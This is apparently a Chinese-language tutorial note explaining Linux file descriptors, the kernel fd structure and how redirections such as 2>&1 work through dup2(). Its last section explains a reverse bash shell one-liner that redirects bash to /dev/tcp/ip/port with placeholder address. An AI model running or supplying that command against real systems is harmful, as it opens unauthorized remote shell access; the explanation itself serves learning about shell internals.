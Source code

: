 > I/O重定向基础知识为文件描述符

![webp](https://upload-images.jianshu.io/upload_images/2322338-e9e60a745921ba84.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/700/format/webp)
文件描述符是文件描述表的下标，文件描述表中存的指向文件结构体的指针。
```
struct fd { 
     struct file *file;//指向文件表的指针 
     unsigned int flags; 
    };
```
而standin，standout，standerr就是三个FILE *指针
```
FILE* stdin
FILE* stdout
FILE* stderr
```
上述代码对应上表，`unsigned int flags; `就是`fd flags`，而`file *file`则是`file ptr`，而在linux里，`flags`只有一个值`close-on-exec`，即`FD_CLOEXEC`
## 重定向
```
2>&1
```
在重定向前，是这样的：
![8bbdb068-98af-4e16-ac68-13f6b9f14d52.png](linux I-O重定向_files/8bbdb068-98af-4e16-ac68-13f6b9f14d52.png)
重定向之后，是这样的：
![61d2f081-841b-4faf-bac5-861ef904c67e.png](linux I-O重定向_files/61d2f081-841b-4faf-bac5-861ef904c67e.png)
这是因为`2>&1`是通过`dup2()`这个系统调用实现的。
**int dup2(int oldfd, int newfd); **:
```
dup2() create a copy of the file descriptor oldfd. After a successful return from dup() or dup2(), the old and new file descriptors may be used interchangeably. They refer to the same open file description (see open(2)) and thus share file offset and file status flags; for example, if the file offset is modified by using lseek(2) on one of the descriptors, the offset is also changed for the other.
```
`dup2()`和`dup()`都是复制一个现存的文件描述符(新的复制老的)，然后指向相同的文件结构体，但是flags不同，因为新的上会被关闭。
> 这儿关于dup2()的实现推荐一个文章[Linux内核分析：dup、dup2的实现](https://www.cnblogs.com/lit10050528/p/6206235.html)，源码非常清楚了，把老的指针复制(赋值)给新的

找到一个非常漂亮的图
![164957289.png](http://blog.51cto.com/attachment/201211/164957289.png)
## 反弹bash
```
bash > /dev/tcp/ip/port 0<&1
```
先是`standout`重定向到`/dev/tcp/ip/port`，接着`standin`的再被复制成`standout`
> 这儿说的standin,standout并非是指针，而是0,1的默认名称
|Handle|Name|Description|
| - | - | - |
|0|stdin|标准输入|
|1|stdout|标准输出|
|2|stderr|标准错误输出|